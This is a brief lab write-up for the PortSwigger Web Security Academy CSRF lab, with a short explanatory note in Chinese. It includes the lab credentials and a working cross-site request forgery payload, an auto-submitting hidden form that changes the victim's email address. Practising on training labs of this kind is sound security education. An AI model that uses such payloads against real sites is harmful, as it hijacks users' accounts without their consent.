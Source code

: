 # Lab: CSRF vulnerability with no defenses

This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter

## CSRF
* 題目說要構造一組 CSRF payload 導致 victim 訪問過後會把 email 改成自己指定的 email
```html
<form method="post" action="https://acbb1f171f9f07e9c0371cd600e30013.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="exploit@email.com">
</form>
<script>
        document.forms[0].submit();
</script>
```
